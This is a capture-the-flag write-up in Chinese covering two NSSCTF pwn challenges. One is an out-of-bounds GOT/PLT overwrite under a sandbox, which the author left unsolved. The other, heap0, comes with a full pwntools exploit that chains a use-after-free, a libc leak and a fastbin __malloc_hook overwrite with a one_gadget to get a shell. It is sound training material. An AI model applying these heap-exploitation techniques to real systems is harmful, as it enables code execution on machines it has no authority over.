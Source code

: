 ```yaml
---
title: NSSCTF PWN WP
date: '2025-03-22 13:50:12'
updated: '2025-04-13 18:31:11'
---
```

## 我地址呢
![](/images/15d12bc5a5fb1e751c95760e4db7fa8c.png)

就 plt 表 Partial RELRO，考虑从 plt 表下手

![](/images/21d1813a5b15702fa3da0009afc2a188.png)

题目还开了沙箱，ban 掉了 execve，只能 orw 了

刚开始看上去不知道从哪里下手，一看存的数据的数组是在 bss 段

![](/images/5866491cc8aa251f8171fbb7eca82e25.png)

![](/images/83449cf513404cf81dc35df34044345f.png)

试了试才知道原来数组索引可以是负数，got 和 plt 段都在 bss 段上面，

这样可以通过数组越界修改到上面的 plt 表

知道了 plt 表的修改方式，但是，怎么用呢...不知道怎么控制程序流

## heap0
libc 版本：2.23-0ubuntu11.3

![](/images/c687860016dee2f59909da38204a129c.png)

没有 PIE，有 canary，NX，got 表 Partial RELRO

堆指针放在 bss 段，有 UAF

![](/images/e3246743a8941f1b1d490ac5ba212702.png)

这里没有把指针置空

没想到这题这么简单...板子题...正好是我写过的第一道堆题

可惜比赛期间有事，没做，回头一看直接秒了...

exp：

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

# link=remote("node5.buuoj.cn",28828)
link=process("./heap0")
libc=ELF("./glibc/2.23-0ubuntu11.3_amd64/libc.so.6")

def add(index,size,data):
    link.recvuntil(b'Enter your choice:')
    link.sendline(b'1')
    link.recvuntil(b'Enter index (0-9):')
    link.sendline(str(index))
    link.recvuntil(b'Enter size (1-256): ')
    link.sendline(str(size))
    link.recvuntil(b'Enter data: ')
    link.sendline(data)

def delete(index):
    link.recvuntil(b'Enter your choice:')
    link.sendline(b'2')
    link.recvuntil(b'Enter index (0-9):')
    link.sendline(str(index))

def show(index):
    link.recvuntil(b'Enter your choice:')
    link.sendline(b'3')
    link.recvuntil(b'Enter index (0-9):')
    link.sendline(str(index))

def edit(index,data):
    link.recvuntil(b'Enter your choice:')
    link.sendline(b'4')
    link.recvuntil(b'Enter index to edit (0-9):')
    link.sendline(str(index))
    link.recvuntil(b'Enter new data: ')
    link.sendline(data)

ogg=[0x4527a,0xf03a4,0xf1247]

# gdb.attach(link,'set solib-search-path ~/FocusingCTF/glibc/2.23-0ubuntu11.3_amd64/')
# pause()

add(0,0x100,b'a')
add(1,0x60,b'a')
add(2,0x60,b'a')
delete(0)
show(0)
malloc_hook=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-0x68
print(hex(malloc_hook))
fake_fast=malloc_hook-0x23
libc_base=malloc_hook-libc.symbols["__malloc_hook"]
print(hex(libc_base))
one_gadget=libc_base+ogg[2]

delete(1)
edit(1,p64(fake_fast))
add(3,0x60,b'a')
add(4,0x60,b'a'*0x13+p64(one_gadget))

link.recvuntil(b'Enter your choice:')
link.sendline(b'1')
link.recvuntil(b'Enter index (0-9):')
link.sendline(b'5')
link.recvuntil(b'Enter size (1-256): ')
link.sendline(b'100')

link.interactive()
```

